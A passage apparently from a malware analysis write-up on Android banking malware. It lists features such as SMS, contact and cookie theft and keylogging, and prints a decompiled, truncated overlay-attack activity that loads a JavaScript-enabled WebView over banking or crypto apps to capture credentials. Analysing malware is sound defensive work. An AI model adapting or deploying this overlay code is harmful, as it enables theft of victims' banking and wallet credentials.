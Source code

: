 # Classic features

Classic features are features that any android mlaware will have such as steal SMS, steal contacts, overlay attack, keylogging, and steal Cookies.


## Overlay attack

The malware will perform overlay attack when the victim opens a specific app usually banking apps or cryptocurrency apps to steal the victim's credentials.

```cs
protected void onCreate(Bundle bundle0) {
        String s;
        super.onCreate(bundle0);
        this.getWindow().setFlags(0x400, 0x400);
        this.requestWindowFeature(1);
        try {
            s = this.getIntent().getStringExtra("data");
        }
        catch(Exception unused_ex) {
            s = null;
        }

        if(s == null) {
            goto label_107;
        }

        try {
            if(!s.isEmpty()) {
                this.setContentView(0x7F0B001D);
                WebView webView0 = new WebView(this);
                this.M = webView0;
                webView0.setWebViewClient(new WebViewClient());
                this.M.getSettings().setJavaScriptEnabled(true);
                this.M.getSettings().setLoadWithOverviewMode(true);
                this.M.getSettings().setUseWideViewPort(false);
                this.M.getSettings().setSupportZoom(false);
                this.M.addJavascriptInterface(new com.ohalqpdj.discopet.Activity.aa(this, this), "Android");
                this.M.loadDataWithBaseURL("fake-url", "<html></html>", "text/html", "UTF-8", null);
                this.I = (RelativeLayout)this.findViewById(0x7F0801D5);
                if(s.equals("url")) {
                    this.I.addView(this.M);
                    this.M.loadUrl(aa.m().G);
                    return;
                }

                if(s.equals("iWantA11")) {
                    this.I.addView(this.M);
                    this.M.loadUrl("file:///android_asset/help.html");
                    return;
                }

                if(aa.m().m()) {
                    this.a();
                    return;
                }

                this.M();
                return;
            }
```